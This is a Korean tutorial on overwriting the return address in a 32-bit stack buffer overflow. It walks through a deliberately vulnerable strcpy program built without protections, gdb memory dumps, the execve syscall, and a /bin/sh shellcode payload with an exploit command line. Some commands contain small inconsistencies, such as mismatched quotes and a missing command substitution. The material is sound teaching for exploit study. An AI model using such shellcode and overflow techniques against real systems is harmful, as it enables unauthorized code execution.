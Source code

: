 # Return Address Overwrite
* **RET Overwrite Exploitation** : 리턴 주소를 덮어 실행 흐름을 조작해 공격자가 원하는 코드를 실행하는 방법
``` C
//example1.c
// gcc -o example1 example1.c -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -m32
#include <stdio.h>
int vuln(char *src) {
  
  char buf[32] = {};
  
  strcpy(buf, src);
  return 0;
}
int main(int argc, char *argv[], char *environ[]) {
  if (argc < 2){
    exit(-1);
  }
  vuln(argv[1]);
  return 0;
}
```
example1.c에서는 프로그램의 argv[1]을 vuln 함수의 인자로 전달한다.   
vuln 함수에서는 src 버퍼를 buf 버퍼에 strcpy 함수를 이용해 복사한다.
strcpy 함수는 피복사 버퍼에 대한 길이 검증이 없이 때문에, 프로그램의 첫 번째 인자에 buf 배열의 크기보다 긴 문자열을 넣으면
스택 버퍼 오버플로우가 발생한다.
vuln함수의 메모리 구조는 아래와 같다.   
![image](https://user-images.githubusercontent.com/59531805/79189586-13f36d00-7e5d-11ea-89e2-2159296ec38a.png)

```
(gdb) p vuln
$1 = {<text variable, no debug info>} 0x804843b <vuln>
(gdb) b*0x804843b
Breakpoint 1 at 0x804843b
(gdb) r aaaabbbbccccdddd
Starting program: ~/example1 aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll
Breakpoint 1, 0x0804843b in vuln ()
(gdb) x/2wx $esp
0xffffd520:	0x08048494	0xffffd74a
(gdb) x/i 0x08048494
   0x8048494 <main+30>:	add    $0x4,%esp
(gdb) x/s 0xffffd74a
0xffffd74a:	"aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll"
(gdb) 
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x20
   0x08048441 <+6>:	mov    ecx,0x0
   0x08048446 <+11>:	mov    eax,0x20
   0x0804844b <+16>:	and    eax,0xfffffffc
   0x0804844e <+19>:	mov    edx,eax
   0x08048450 <+21>:	mov    eax,0x0
   0x08048455 <+26>:	mov    DWORD PTR [ebp+eax*1-0x20],ecx
   0x08048459 <+30>:	add    eax,0x4
   0x0804845c <+33>:	cmp    eax,edx
   0x0804845e <+35>:	jb     0x8048455 <vuln+26>
   0x08048460 <+37>:	push   DWORD PTR [ebp+0x8]
   0x08048463 <+40>:	lea    eax,[ebp-0x20]
   0x08048466 <+43>:	push   eax
   0x08048467 <+44>:	call   0x8048300 <strcpy@plt>
   0x0804846c <+49>:	add    esp,0x8
   0x0804846f <+52>:	mov    eax,0x0
   0x08048474 <+57>:	leave  
   0x08048475 <+58>:	ret  
End of assembler dump.
(gdb) 
```
breakpoint에서의 스택 메모리를 보면, 첫 4바이트는 vuln 함수의 리턴 주소이고 다음 4바이트는 vuln 함수의 인자인 argv[1]의 주소임을 알 수 있다.
strcpy 함수가 실행되기 직전에 breakpoint를 설정해 인자들을 살펴보자. 스택을 살펴보면 첫 번째 인자인 buf 주소와 두 번째 인자인 argv[1]의 주소가 저장되장되어 있는 것을 볼 수 있다.
```
(gdb) x/20i vuln
=> 0x804843b <vuln>:	push   ebp
   ...
   0x8048467 <vuln+44>:	call   0x8048300 <strcpy@plt>
   ...
(gdb) b *0x8048467
Breakpoint 2 at 0x8048467
(gdb) c
Continuing.
Breakpoint 2, 0x08048467 in vuln ()
(gdb) x/2wx $esp
0xffffd4f4:	0xffffd4fc	0xffffd74a
```
strcpy 함수를 실행해보자. strcpy 함수의 첫 번째 인자인 buf(0xffffd4fc)에 argv[1]의 문자열이 복사된 것을 볼 수 있다.
argv[1]에 buf의 길이인 32바이트보다 긴 문자열을 주었기 때문에 vuln의 리턴주소가 저장된 0xffffd520(buf[32]+SFP[4]+RET[4])너머까지
argv[1] 문자열이 복사된 것을 확인할 수 있다.
```
(gdb) ni
0x0804846c in vuln ()
(gdb) x/20wx 0xffffd4fc
0xffffd4fc:	0x61616161	0x62626262	0x63636363	0x64646464
0xffffd50c:	0x65656565	0x66666666	0x67676767	0x68686868
0xffffd51c:	0x69696969	0x6a6a6a6a	0x6b6b6b6b	0x6c6c6c6c
0xffffd52c:	0xf7e1b600	0x00000002	0xffffd5c4	0xffffd5d0
0xffffd53c:	0x00000000	0x00000000	0x00000000	0xf7fb5000
(gdb) 
```
위와 같이 실행이 되면 RET가 0x6a6a6a6a로 바뀌었다.
공격자가 /bin/sh/ 혹은 셸 바이너리를 실행하는 기계어 코드를 실행한다면, 셸에서 제공하는 여러 명령어들을 실행할 수 있다.
리눅스에서는 바이너리를 실행시키기 위해서 execve 시스템 콜을 사용한다.
```
execve syscall
syscall number(eax register) - 0xb(11)
1st argument(ebx register) – pathname
2nd argument(ecx register) – argv[]
3rd argument(edx register) – envp[]
```
pathname에는 실행시킬 바이너리의 경로, argv는 프로그램의 인자 포인터 배열, envp에는 프로그램의 환경 변수 포인터 배열이 요구된다.
단순히 /bin/sh 바이너리를 실행시키는 것이 목적이기 떄무에 sys_execve("/bin/sh"주소, NULL, NULL) 형태의 execve 시스템 콜을 호출하면 된다.
리턴 주소가 저장된 스택 메모리를 덮기까지 남은 36바이트(buf[32]+SFP[4])의 위치에 셸코드를 위치시키고, 리턴 주소를 저장된 셸코드 주소로 바꾸는 공격 코드를 만들어보자.      
![image](https://user-images.githubusercontent.com/59531805/79190502-7483a980-7e5f-11ea-856e-4d06475a4a29.png)  
셸코드의 길이는 23바이트이므로 공격코드는 다음과 같이 구성된다.
```
셸코드 + 임의의 13바이트 + 0xffffd4fc(strcpy 함수의 첫 번째 인자인 buf의 주소)
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "\x90”*13 + “\xfc\xd4\xff\xff”
```
```
$ ./example1 python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*13+"\xfc\xd4\xff\xff"'
[1]    88636 segmentation fault (core dumped)  ./example1 
$ 
```
셸을 획득하지 못하고 프로그램이 비정상 종료되었다. 스택의 셸코드의 주소가 실행을 하면서 바뀌었기 때문이다.
정확성을 높이기 위해 NOP을 사용해야 한다.
